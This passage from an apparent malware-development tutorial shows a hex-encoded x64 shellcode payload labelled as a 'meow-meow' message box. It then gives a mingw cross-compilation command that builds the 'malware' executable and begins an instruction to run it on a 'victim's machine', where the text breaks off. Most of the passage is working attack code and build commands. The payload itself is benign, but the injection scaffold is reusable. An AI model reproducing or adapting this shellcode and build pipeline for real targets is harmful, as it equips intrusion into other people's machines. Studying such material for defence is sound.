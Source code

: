 ```cpp
unsigned char my_payload[] =
  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";
```

### demo 3

Let's go to see running shellcode in action. Compile our "malware":    

```bash
x86_64-w64-mingw32-g++ -O2 hack3.cpp -o hack3.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive -ldbghelp
```

![injection](./images/83/2022-12-21_22-21.png){width="80%"}    

Then, run on a victim's machine:    
